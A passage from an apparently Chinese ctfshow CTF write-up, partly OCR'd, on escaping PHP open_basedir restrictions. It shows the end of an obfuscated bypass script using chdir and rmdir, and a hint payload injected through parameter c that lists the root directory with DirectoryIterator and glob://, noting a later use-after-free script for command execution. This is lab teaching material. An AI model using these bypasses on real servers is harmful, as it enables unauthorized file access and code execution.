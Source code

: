 >            @$_Ei34Ww_sQDfq_num = substr_count($_Ei34Ww_sQDfq_path,'/')-1;
>            //echo $_Ei34Ww_sQDfq_num;
>            $_Ei34Ww_sQDfq_i = 0;
>            while($_Ei34Ww_sQDfq_i < $_Ei34Ww_sQDfq_num){
>                    @chdir('..');
>                    $_Ei34Ww_sQDfq_i++;
>            }
>    //@ini_set('open_basedir','/');
>    @rmdir($_Ei34Ww_sQDfq_FILENAME.'/'.'bypass_open_basedir');
>    }
>    1234567891011121314151617181920
>    ```
>
>    只跳两次目录，当前的目录为`www`,`open_basedir`为`..`即`var`。此时我们应该无法查看其他目录。
>
>    ![在这里插入图片描述](ctfshow%E9%A2%98%E8%A7%A3.assets/467e9049032a29bc4281ee3d828c4339.png)

```php
题目给出的hint:
c=?><?php $a=new DirectoryIterator("glob:///*"); foreach($a as $f) {echo($f->__toString().' ');} exit(0); ?>
//注意空格
//通过这个发现flag在flag0.txt
//之后利用uaf的脚本进行命令执行
```

```php
<?php
$a=new DirectoryIterator("glob:///*");
	# 利用DirectoryIterator($path)可以实现遍历目录下的所有文件
	# glob://  查找匹配的文件路径模式
	# DirectoryIterator("glob:///*")   遍历根目录里所有文件
foreach($a as $f){  	#循环遍历输出，并以空格为分隔
    echo ($f->__tostring().' ');
}
exit(0);
?>
```
